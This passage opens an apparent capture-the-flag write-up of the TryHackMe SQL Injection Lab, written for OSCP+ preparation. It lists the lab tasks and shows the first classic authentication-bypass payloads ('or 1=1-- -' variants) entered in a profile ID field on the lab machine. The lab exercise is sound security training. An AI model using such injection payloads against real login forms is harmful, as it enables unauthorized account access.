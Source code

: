 ```yaml
---
layout: post
title:  THM SQL Injection Lab Write-up
description: Part of the OSCP+ Preparation Series
date:   2024-11-11 03:00:00 +0300
image:  '/images/thm_sql_injection_lab.png'
tags:   [Write-ups, THM, OSCP+, Easy, Web-Pentesting, SQL-Injection, Manual-SQL-Injection, SQLMap]
---
```


# Table of Contents
- [Task 1 - Deploy and access the machine](#task-1---deploy-and-access-the-machine)
- [Task 2 - Introduction to SQL Injection: Part 1](#task-2---introduction-to-sql-injection-part-1)
- [Task 3 - Introduction to SQL Injection: Part 2](#task-3---introduction-to-sql-injection-part-2)
- [Task 4 - Broken Authentication 1](#task-4---broken-authentication)
- [Task 5 - Broken Authentication 2](#task-5---broken-authentication)
- [Task 6 - Broken Authentication 3 (Blind Injection)](#task-6---broken-authentication-3-blind-injection)
- [Task 7 - Vulnerable Notes](#task-7---vulnerable-notes)
- [Task 8 - Vulnerable Startup: Change Password](#task-8---vulnerable-startup-change-password)
- [Task 9 - Vulnerable Startup: Book Title](#task-9---vulnerable-startup-book-title)
- [Task 10 - Vulnerable Startup: Book Title 2](#task-10---vulnerable-startup-book-title-2)

# Introduction
### Task 1 - Deploy and access the machine

Deploy the vulnerable machine and visit the IP at Port 5000:

```shell
http://10.10.53.135:5000
```

### Task 2 - Introduction to SQL Injection: Part 1
Note: The following payloads are being entered on the ProfileID input. As Password we are entering anything we want.

#### Input Box String

```shell
# Standard payload which should work
1 or 1=1-- -
```
The payload above will tell us that account doesnt exist, so we will need to use '':

```shell
# Solution that worked
'' or 1=1-- -
```

#### Input Box Non-String
